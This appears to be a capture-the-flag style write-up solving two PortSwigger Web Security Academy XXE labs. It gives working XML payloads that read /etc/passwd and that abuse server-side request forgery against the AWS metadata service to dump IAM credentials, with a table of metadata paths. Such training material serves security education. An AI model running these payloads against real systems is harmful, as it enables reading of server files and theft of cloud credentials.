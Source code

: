 ## Labs Covered

This write-up focuses on the following **APPRENTICE-level labs** from the PortSwigger Web Security Academy related to **XML External Entity (XXE) Injection**:

**Exploiting XXE using external entities to retrieve files**  
This lab demonstrates how attackers can exploit XXE vulnerabilities to read sensitive files from the server.

**Exploiting XXE to perform SSRF attacks**  
This lab shows how XXE vulnerabilities can be leveraged to perform server-side request forgery (SSRF) attacks.

---

### LAB 1 - Exploiting XXE using external entities to retrieve files

### Lab Description

![image](https://github.com/user-attachments/assets/d14bffc5-52ee-4c19-a1e1-d35e92287e6a)

### Solution


### 🔍 1. Intercept the Request
Use **Burp Suite** to intercept the **Check Stock** request.

You’ll see a POST request like this:

```http
POST /product/stock HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 🛠️ 2. Modify XML to Inject XXE

Add the `DOCTYPE` definition between the XML declaration and the root `stockCheck` element. Replace the `productId` value with `&xxe;`.

### 💣 XXE Payload to Read `/etc/passwd`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/user-attachments/assets/75802045-6bd0-4eef-90d2-e09b359c76ee)


---

### 🚀 3. Send the Request

* Forward the modified request.
* Observe the response: it should now include the contents of `/etc/passwd`.

![image](https://github.com/user-attachments/assets/9e92adff-5e6a-418c-affe-9de44544f615)



Once the `/etc/passwd` file is reflected back in the response, the lab is marked as **solved**.

![image](https://github.com/user-attachments/assets/a51194c3-2138-4c3e-9ef9-f866b4a24b7e)

# Key takeaway:

![image](https://github.com/user-attachments/assets/63c1396e-fe25-4e11-9854-b577f654be8f)

![image](https://github.com/user-attachments/assets/d58e23d1-73df-44b2-b8c6-3093b2949126)

---

### LAB 2 - Exploiting XXE to perform SSRF attacks


### Lab Description


![image](https://github.com/user-attachments/assets/89d7fd94-6235-4924-8b05-7f6a145c8e07)

### Solution


## 🧠 Background

### 🧾 Local Entities
Typical files like `/etc/passwd` are local entities. These can reveal OS-level information.

### ☁️ AWS Metadata Service
Cloud services like AWS expose metadata via a special internal endpoint:
```

http://169.254.169.254

````

This can be used to:
- Enumerate instance information
- Extract IAM role credentials

---


### 🔹 1. Initial Discovery Payload

Send a simple XXE payload to access the root of the AWS metadata endpoint:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
````


**Expected Output:**
You’ll likely see `latest` returned after "Invalid product".

![image](https://github.com/user-attachments/assets/a39cfc0a-36ef-4e1e-b31b-12035366d42a)


## 🔍 Enumerating the AWS Metadata Paths

From the initial XXE payload targeting `http://169.254.169.254/`, you receive the string `latest`, indicating that the server is forwarding the request to the **AWS instance metadata service**.

This is your first clue.

Now continue exploring the metadata hierarchy:

### 🔹 2. Walk the Metadata API


Start traversing the metadata directory structure with each of the following payloads:

1. **Get the root metadata version**

```xml

   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/">

   ````

> Response: `meta-data`

2. **List metadata categories**

   ```xml
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
   ````

   > Response (partial example):

   ```
   ami-id
   hostname
   iam/
   instance-id
   ...
   ```

3. **Explore IAM-specific data**

   ```xml
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/">
   ```

   > Response:

   ```
   security-credentials/
   ```

4. **List available IAM roles**

   ```xml
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
   ```

   > Response:

   ```
   admin
   ```
---

### 🔹 3. Final Exploit – Dump Credentials

Replace the XXE entity to point directly to the role path:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```


 ![image](https://github.com/user-attachments/assets/5340c01b-62e4-4427-8ddd-5ce0e06561fe)

**Response:**

 ![image](https://github.com/user-attachments/assets/db89cc4c-01c0-4d7c-9e32-c40eec364d03)



Once you retrieve and view the AWS credentials from the metadata API, the lab will mark as solved.

![image](https://github.com/user-attachments/assets/533db340-2e19-48ad-91db-167933d7e467)

---

## 🧠 Bonus: Metadata Path Reference

| Endpoint                           | Description                              |
| ---------------------------------- | ---------------------------------------- |
| `/latest/meta-data/`               | Root metadata directory                  |
| `/instance-id`                     | EC2 instance ID                          |
| `/hostname`                        | Hostname                                 |
| `/iam/security-credentials/`       | IAM roles                                |
| `/iam/security-credentials/<role>` | IAM keys (Access Key, Secret Key, Token) |

---

KeyTakeaway:

![image](https://github.com/user-attachments/assets/5850d7d0-927a-4b5e-83f7-278ad3dea9ac)


